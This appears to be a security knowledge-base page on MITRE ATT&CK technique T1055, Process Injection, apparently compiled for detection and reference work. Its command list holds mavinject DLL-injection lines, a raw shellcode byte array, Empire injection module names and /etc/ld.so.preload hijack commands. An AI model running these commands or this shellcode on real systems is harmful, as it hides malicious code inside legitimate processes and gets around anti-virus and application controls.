 
# Process Injection

## Description

### MITRE Description

> Adversaries may inject code into processes in order to evade process-based defenses as well as possibly elevate privileges. Process injection is a method of executing arbitrary code in the address space of a separate live process. Running code in the context of another process may allow access to the process's memory, system/network resources, and possibly elevated privileges. Execution via process injection may also evade detection from security products since the execution is masked under a legitimate process. 

There are many different ways to inject code into a process, many of which abuse legitimate functionalities. These implementations exist for every major OS but are typically platform specific. 

More sophisticated samples may perform multiple process injections to segment modules and further evade detection, utilizing named pipes or other inter-process communication (IPC) mechanisms as a communication channel. 

## Aliases

```

```

## Additional Attributes

* Bypass: ['Application control', 'Anti-virus']
* Effective Permissions: None
* Network: None
* Permissions: None
* Platforms: ['Linux', 'macOS', 'Windows']
* Remote: None
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1055

## Potential Commands

```
$mypid = (Start-Process notepad -PassThru).id
mavinject $mypid /INJECTRUNNING #{dll_payload}
$mypid = #{process_id}
mavinject $mypid /INJECTRUNNING PathToAtomicsFolder\T1055\src\x64\T1055.dll
0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6A, 0x60, 0x5A, 0x68, 0x63, 0x61, 0x6C, 0x63, 0x54, 0x59, 0x48, 0x83, 0xEC, 0x28, 0x65, 0x48, 0x8B, 0x32, 0x48, 0x8B, 0x76, 0x18, 0x48, 0x8B, 0x76, 0x10, 0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B, 0x7E, 0x30, 0x03, 0x57, 0x3C, 0x8B, 0x5C, 0x17, 0x28, 0x8B, 0x74, 0x1F, 0x20, 0x48, 0x01, 0xFE, 0x8B, 0x54, 0x1F, 0x24, 0x0F, 0xB7, 0x2C, 0x17, 0x8D, 0x52, 0x02, 0xAD, 0x81, 0x3C, 0x07, 0x57, 0x69, 0x6E, 0x45, 0x75, 0xEF, 0x8B, 0x74, 0x1F, 0x1C, 0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE, 0x48, 0x01, 0xF7, 0x99, 0xFF, 0xD7, 0x48, 0x83, 0xC4, 0x30, 0x5D, 0x5F, 0x5E, 0x5B, 0x5A, 0x59, 0x58, 0xC3
powershell/code_execution/invoke_reflectivepeinjection
powershell/code_execution/invoke_shellcode
powershell/code_execution/invoke_shellcodemsil
powershell/credentials/credential_injection
powershell/management/psinject
powershell/management/reflective_inject
powershell/management/shinject
python/management/osx/shellcodeinject64
```
echo #{path_to_shared_library} > /etc/ld.so.preload
echo /home/$USER/random.so > /etc/ld.so.preload